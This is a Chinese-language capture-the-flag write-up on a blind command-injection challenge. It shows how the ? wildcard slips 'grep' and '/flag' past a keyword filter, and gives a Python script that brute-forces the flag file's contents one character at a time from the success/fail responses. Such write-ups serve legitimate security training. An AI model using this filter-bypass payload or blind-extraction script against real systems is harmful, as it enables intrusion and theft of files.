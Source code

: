从网页源码我们可以看到，代码会判断命令执行情况，并返回success或者fail<br />我们可以通过这个加上grep查看/flag文件中有没有指定的字符串，从而来获取flag
```php
if(!$return_val)   echo "success";
else{
    echo "fail"; 
}
```
grep的语法如下<br />表示查找字符串str是否在flag文件中，存在返回true，不存在返回false
```php
grep -rl str /flag
```
因为grep和flag都被过滤了，所以我们可以使用通配符 ? 来绕过正则匹配<br />?代表一个占位符，表示一个任意字符
```php
grep -> /bin/gre?
/flag -> /f?ag
```
从而payload如下
```php
/bin/gre? -rl str /f?ag
```
写脚本进行爆破盲注
```php
import requests
import time
url = 'http://bd6e7cdf-6592-4ebe-8b4d-66fc1110a302.node.yuzhian.com.cn'
str = ''
string = "{}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-"
for i in range(42):
    # print(i)
    for j in string:
        time.sleep(0.1)
        str += j
        payload = {
            'code': f"/bin/gre? -rl {str} /f?ag",
        }
        r = requests.get(url=url, params=payload).text
        if(r'success' in r):
            print(str)
            break
        else:
            str = str[:-1]
```
